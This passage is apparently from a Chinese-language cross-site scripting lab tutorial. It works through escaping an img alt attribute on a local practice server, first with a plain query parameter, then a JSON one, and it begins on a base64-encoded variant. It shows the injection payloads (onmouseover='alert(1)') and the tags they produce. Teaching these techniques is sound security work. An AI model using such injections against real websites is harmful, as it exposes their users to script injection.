 

构造payload：

```
http://127.0.0.1/xss/attr/alt?value=' onmouseover='alert(1)
```

更改后的标签如下：

```
<img style="width: 100px" alt="" onmouseover="alert(1)" src="/static/logo.png" onclick="javascript:alert(&quot;Welcome CLICK ME!&quot;)">
```



### 进阶1：输出存在于HTML节点属性中，但是不再on属性中(IMG ALT)

注意原始的链接：

```
http://127.0.0.1/xss/attr/alt/json?json={"value":"value=visitor-name"}
```

![image-20250223145616368](../../_media/image-20250223145616368.png)



所以按道理可以payload如下：

```
http://127.0.0.1/xss/attr/alt/json?json={"value":"'+onmouseover='alert(1)"}
```

更改后的元素如下：

```
<img style="width: 100px" alt="" onmouseover="alert(1)" src="/static/logo.png" onclick="javascript:alert(&quot;Welcome CLICK ME!&quot;)">
```



### 进阶2：输出存在于HTML节点属性中，但是不再on属性中(IMG ALT)

原始链接：

```
http://127.0.0.1/xss/attr/alt/b64/json?b64json=eyJ2YWx1ZSI6InZhbHVlPXZpc2l0b3ItbmFtZSJ9
```

后面的字符串看起来就很base64，所以我们解码看一下

```
{"value":"value=visitor-name"}
```
